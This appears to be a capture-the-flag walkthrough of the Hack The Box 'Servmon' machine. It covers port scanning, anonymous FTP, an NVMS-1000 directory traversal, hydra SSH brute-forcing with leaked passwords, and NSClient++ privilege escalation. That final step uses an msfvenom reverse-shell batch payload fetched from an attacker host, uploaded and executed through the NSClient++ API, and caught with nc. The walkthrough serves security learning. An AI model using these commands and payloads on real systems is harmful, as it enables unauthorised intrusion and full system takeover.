




Servmon is a Windows machine rated Easy on HTB.

## Port Scan

`nmap -sC -sV -p- 10.10.10.184`

```
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
<SNIP<>>
80/tcp    open  http          syn-ack ttl 127
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-favicon: Unknown favicon MD5: 3AEF8B29C4866F96A539730FAB53A88F
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
5040/tcp  open  unknown       syn-ack ttl 127
5666/tcp  open  tcpwrapped    syn-ack ttl 127
6063/tcp  open  tcpwrapped    syn-ack ttl 127
6699/tcp  open  napster?      syn-ack ttl 127
7680/tcp  open  pando-pub?    syn-ack ttl 127
8443/tcp  open  ssl/https-alt syn-ack ttl 127
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-01-14T13:24:20
| Not valid after:  2021-01-13T13:24:20
| MD5:   1d03 0c40 5b7a 0f6d d8c8 78e3 cba7 38b4
| SHA-1: 7083 bd82 b4b0 f9c0 cc9c 5019 2f9f 9291 4694 8334
| -----BEGIN CERTIFICATE-----
<SNIP>
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
<SNIP>
```

There are many ports open. FTP allows anonymous access so let's start with this low-hanging fruit.

## Enumerating FTP

Connect to FTP with this command.

`ftp 10.10.10.184`

```
Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
<SNIP>
ftp> cd Nadine
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:08PM                  174 Confidential.txt
226 Transfer complete.
ftp> get Confidential.txt
<SNIP>
```

After browsing, we find `Confidential.txt` in Nadine's directory and downloaded it with FTP.

```
# cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

Now, other than getting two possible usernames, we also have some information the allows us to guess the path to Nathan's password file. 

Let's hope it's still there when we get to it.

## Exploiting NVMS Directory Traversal

Next, let's check out the web server at port 80.

[NVMS-1000](http://en.tvt.net.cn/products/188.html) is a monitoring client for network video surveillance.



It is vulnerable to a directory traversal attack. Using the information in the [PoC](https://www.exploit-db.com/exploits/47774), we can carry out the attack with Burp.

First, let's test if the installation is vulnerable.



Looking at the response, the attack succeeded.

Now, let try to recover Nathan's password file from his desktop.



This password file contains seven passwords.

## Bruteforcing SSH

Let's consolidate the usernames and passwords we've gathered up to this point.

In `user.txt`:

```
nadine
nathan
```

In `password.txt`:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

We can use these information to bruteforce the SSH service with hydra.

```
# hydra -L user.txt -P password.txt 10.10.10.184 -t 4 ssh

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
<SNIP>
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
<SNIP>
```

We find a set of SSH crecentials. With it, we can log into nadine's account.

```
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
```

Here, you can find the user flag.

## Privilege Escalation Through NSClient++ Vulnerability

Our initial port scan revealed that NSClient++ is running at port 8443.

[NSClient++](https://docs.nsclient.org/) is a monitoring daemon that allows enables integration with a remote monitoring server.

A search on exploitdb shows that [NSClient++ 0.5.2.35 has a privilege escaltion vulnerability](https://www.exploit-db.com/exploits/46802).

Let's find out if the installed version is vunerable.

```
nadine@SERVMON c:\Program Files\NSClient++>type changelog.txt
2018-01-18 Michael Medin
 * Fixed some Op5Client issues
 <SNIP>
 ```

 * The latest entry in the changelog.txt was on 18 Jan 2018.

 * According to [this page](https://nsclient.org/download/), the vulnerable version was released on 29 Jan 2018.

Since the version installed is older than the vulnerable version, it is possible that the vulnerability exists.

### How The Exploit Works

NSClient++ allows external scripts to run on a schedule. This is to facilitate the automation of monitoring tasks.

* The idea behind this exploit is to upload a malicious script and let NSClient++ execute it.

* The [documentation](https://docs.nsclient.org/tutorial/) states that NSClient++ runs as Local System by default.

* Hence, if the script pushes a shell to our handler, we can obtain an elevated shell.

### Exploiting NSClient++ With API

The steps:

1. Get web password
2. Enable external scripts and scheduler
3. Add a new script pointing to malicious payload
4. Get NSClient++ to execute it

By [printing the configuration](https://support.itrsgroup.com/hc/en-us/articles/360020252193-How-to-configure-NSClient-from-the-Windows-command-prompt-), we can obtain the **password** and also verify that **external scripts and scheduler are enabled**.

```
nadine@SERVMON c:\Program Files\NSClient++>nscp settings --list
<SNIP>
/modules.CheckExternalScripts=enabled
<SNIP>
/modules.Scheduler=enabled
<SNIP>
/settings/default.allowed hosts=127.0.0.1
/settings/default.password=ew2x6SsGTxjRwXOT
<SNIP>
```

We also note that the allowed hosts point to **local host**. This means that we need to exploit locally or perform port forwarding.

Since, we do not have access to the GUI locally, let's try using the [API](https://docs.nsclient.org/api/rest/scripts/) to complete the attack. `curl` is conveniently installed on Servmon.

First, let's prepare a batch file `payload` with msfvenom.

`# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.X.X LPORT=8888 -f bat > sorryforthis.bat`

Then, infiltate it.

`nadine@SERVMON c:\Temp>powershell -c "Invoke-WebRequest -Uri http://10.10.X.X:8000/sorryforthis.bat -OutFile c:\temp\sorryforthis.bat`

Now, let's define a **script** pointing to our payload. The `-k` flag is needed to run insecure connections over SSL.

```
nadine@SERVMON c:\Temp>curl -s -k -u admin:ew2x6SsGTxjRwXOT -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/sorryforthis.bat 
--data-binary @sorryforthis.bat
Added sorryforthis as scripts\sorryforthis.bat
```

Finally, we **execute** it (in the form of a [query](https://docs.nsclient.org/api/rest/queries/)) directly rather than setting a schedule to do it.

```
nadine@SERVMON c:\Temp>curl -s -k -u admin:ew2x6SsGTxjRwXOT "https://localhost:8443/api/v1/queries/sorryforthis/commands/execute"
{"command":"sorryforthis","lines":[{"message":"Command sorryforthis didn't terminate within the timeout period 60s","perf":{}}],"resul
t":3}
```

After executing the script, we get a system shell.

```
# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.184] 49694
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```

# Thoughts

I also tried the privilege escalation through port forwarding with this box. You will need it if you want to exploit via the GUI.

However, you don't need it if you're exploiting locally via the API.
